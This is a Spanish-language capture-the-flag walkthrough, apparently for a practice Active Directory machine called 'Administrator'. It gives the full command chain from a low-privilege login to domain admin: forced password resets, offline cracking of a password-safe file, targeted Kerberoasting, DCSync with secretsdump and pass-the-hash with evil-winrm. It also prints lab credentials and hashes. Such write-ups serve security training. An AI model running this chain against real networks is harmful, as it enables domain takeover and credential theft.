Empezamos con las siguientes credenciales ``Olivia:ichliebedich``
# Scan
Empezamos realizando un escaneo con ``rustscan -a 10.129.15.243 --ulimit 5000 -r 1-65535 -- -sVC -oN scan -Pn``
```js
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-03-05 00:37:24Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: administrator.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: administrator.htb, Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
52859/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
52864/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
52867/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
52884/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
52916/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
53447/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38833/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 16177/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 17827/udp): CLEAN (Timeout)
|   Check 4 (port 36376/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: -59m59s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-03-05T00:38:23
|_  start_date: N/A
```
Añadimos ``administrator.htb`` a nuestro ``/etc/hosts``
Lanzamos bloodhound para enumerar ``bloodhound-python -u 'olivia' -p 'ichliebedich' -d administrator.htb -ns 10.129.15.243 -c All --zip``

Ahora que identificamos la ruta de ataque vamos a empezar con el usuario michael.
# Exploitation
Ahora cambiamos la contraseña de Michael:
```bash
bloodyAD -u 'Olivia' -p 'ichliebedich' -d 'administrator.htb' --host 10.129.15.243 set password 'Michael' 'Password123!'
```
Ahora cambiamos la contraseña de Benjamin:
```bash
bloodyAD -u 'Michael' -p 'Password123!' -d 'administrator.htb' --host <IP> set password 'Benjamin' 'Passwd1234!'
```
Ahora intentamos acceder al ftp desde Benjamin ya que es parte de share moderators:
Aquí encontramos Backup.psafe3 y lo descargamos:

Este tipo de archivos se usan en el programa PasswordSafe que es un gestor de contraseñas:
Intentamos abrirlo ``pwsafe -v -f Backup.psafe3`` pero nos pide contraseña por lo que vamos a intentar crackearla con john:

```bash
pwsafe2john Backup.psafe3 > backup.hash
john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash
```

Ahora con la contraseña ``tekieromucho`` lo desbloqueamos:

Ahora extraemos las siguientes credenciales:
```bash
alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
```


Nos conectamos por winrm con emily ya que esta en el grupo de remote management users:
```bash
evil-winrm-py -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -i 10.129.15.243 
```
Y en el escritorio obtenemos la flag de user:

# Privesc 

Como tenemos GenericWrite vamos a hacer un target kerberoast para obtener el hash del usuario ethan:
```bash
sudo ntpdate  10.129.15.243
targetedKerberoast -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' --dc-ip 10.129.15.243
```


Ahora lo crackeamos con hashcat:
```bash
hashcat hash /usr/share/wordlists/rockyou.txt 
```

 Entonces ahora tenemos ``ethan:limpbizkit``
 
Como Ethan tiene los permisos GetChanges y GetChangesAll podemos hacer un dsync sobre el dominio:
```bash
impacket-secretsdump administrator.htb/ethan:limpbizkit@10.129.15.243
```



Obtenemos el hash del administrador: ``Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::``
Entonces ahora nos conectamos con evil-winrm haciendo  un pass the hash:
```bash
evil-winrm -i 10.129.15.243 -u Administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```
Finalmente en el dekstop del administrador encontramos la flag de root:
